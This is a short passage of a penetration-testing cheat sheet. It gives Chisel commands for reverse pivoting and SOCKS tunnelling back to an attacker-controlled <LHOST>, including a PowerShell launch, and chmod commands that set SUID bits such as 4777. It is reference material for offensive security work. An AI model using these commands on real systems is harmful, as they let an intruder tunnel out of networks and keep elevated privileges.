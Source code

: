 ```console
$ cat /etc/changelist
```

## Chisel

> https://github.com/jpillora/chisel

### Reverse Pivot

#### Server

```console
$ ./chisel server -p 9002 -reverse -v
```

#### Client

```console
$ ./chisel client <LHOST>:9002 R:3000:127.0.0.1:3000
```

##### With PowerShell Start-Process (saps)

```cmd
PS C:\> saps 'C:\chisel.exe' 'client <LHOST>:9002 R:3000:127.0.0.1:3000'
```

#### Forwaord multiple Ports at once

```console
$ ./chisel client <LHOST>:9002 R:8001:127.0.0.1:8001 R:8002:127.0.0.1:8002 R:8003:127.0.0.1:8003
```

### SOCKS5 / Proxychains Configuration

#### Server

```console
$ ./chisel server -p 9002 -reverse -v
```

#### Client

```console
$ ./chisel client <LHOST>:9002 R:socks
```

## chmod

### SUID Bit

```console
$ chmod +s <FILE>
$ chmod u+s <FILE>
$ chmod 4777 <FILE>
```
